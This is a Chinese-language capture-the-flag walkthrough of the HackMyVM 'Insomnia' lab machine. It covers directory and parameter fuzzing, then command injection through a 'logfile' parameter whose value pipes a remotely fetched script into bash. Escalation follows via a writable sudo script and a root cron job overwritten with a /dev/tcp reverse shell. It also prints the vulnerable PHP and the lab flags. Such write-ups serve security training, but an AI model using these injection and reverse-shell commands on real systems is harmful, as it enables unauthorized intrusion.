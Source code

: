# Insomnia

2024-11-08 https://hackmyvm.eu/machines/machine.php?vm=Insomnia

## IP

192.168.5.40

## Scan

```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

只开放一个端口，访问主页，显示的是一个聊天程序，经过测试没发现它有 sql 注入、ssti 等漏洞，使用 gobuster 进行扫描，出现错误，需要排除长度，换 ffuf 进行扫描：

```
gobuster dir -t 64 -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,txt,zip,rar --exclude-length 2899 -u http://192.168.5.40:8080/

ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -recursion -recursion-depth 1 -e .php -u http://192.168.5.40:8080/FUZZ -fs 2899
```

发现如下几个链接：

```
http://192.168.5.40:8080/chat.txt             (Status: 200) [Size: 1237]
http://192.168.5.40:8080/administration.php   (Status: 200) [Size: 65]
http://192.168.5.40:8080/process.php          (Status: 200) [Size: 2]
```

同时发现聊天记录中的信息 通过 http://192.168.5.40:8080/process.php传送到后台，然后记录在文件 http://192.168.5.40:8080/chat.txt 中，这里面没发现能利用的漏洞。

在看 http://192.168.5.40:8080/administration.php 可能有隐藏的参数，使用 ffuf 进行下探测：

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.40:8080/administration.php?FUZZ=/etc/passwd -fs 65

发现了隐藏参数：
logfile                 [Status: 200, Size: 76, Words: 12, Lines: 3, Duration: 44ms]
```

经过测试 logfile 参数不存在 LFI 漏洞，但是存在命令 RCE 漏洞：

```
curl 'http://192.168.5.40:8080/logfile=chat.txt;id'
```

这时在聊天窗口上会显示 www-data 用户信息，说明 id 被执行了(这里需要两个窗口联动，才能看出执行的结果，否则只看前一个链接，是看不出命令是否能执行)，所以可以获得反弹的 web shell：

```
curl -G --data-urlencode 'logfile=chat.txt;wget -q -O - http://192.168.5.3/5-3/8888.sh|bash' http://192.168.5.40:8080/administration.php
```

先看看 administrator.php 中的漏洞是怎么形成的：

```
$param = $_GET['logfile'];
switch($param){
    case('chat.txt'):
    $file = fopen("chat.txt","r");
    echo fgets($file);
        fclose($file);
        break;
    default:
    echo 'You are not allowed to view : '.$param;
    $log = shell_exec("echo $param >> chat.txt");  <-- 这里 $param 中存在RCE漏洞
    echo '<br>';
    echo 'Your activity has been logged';
}
```

先获得了 user flag：

```
www-data@insomnia:/home/julia$ cat user.txt

~~~~~~~~~~~~~\
USER INSOMNIA
~~~~~~~~~~~~~
Flag : [c2e285cb33cecdbeb83d2189e983a8c0]
```

sudo -l 发现：

```
(julia) NOPASSWD: /bin/bash /var/www/html/start.sh
```

/var/www/html/start.sh 是 777 权限，直接修改其内容，然后 sudo 执行获得到 julia 权限：

```
echo '/bin/bash' > /var/www/html/start.sh

sudo -u julia /bin/bash /var/www/html/start.sh
```

获得到了 julia 权限，继续寻找提权到 root 的路径，查看其 .bash_history 发现有一个 sh 文件 /var/cron/chech.sh 属于 root 用户，具有 777 权限，cat /etc/crontab 发现 root 用户每分钟执行一次该脚本，所以直接修改该脚本，将反弹 shell 命令写入到其中，最终在 kali 上获得了 root 权限的反弹 shell：

```
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/7777 0>&1"' > /var/cron/chech.sh
```

```
root@insomnia:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@insomnia:~# cd /root
cd /root
root@insomnia:~# ls
ls
root.txt
root@insomnia:~# cat root.txt
cat root.txt

~~~~~~~~~~~~~~~\
ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c84baebe0faa2fcdc2f1a4a9f6e2fbfc]

by Alienum with <3
```
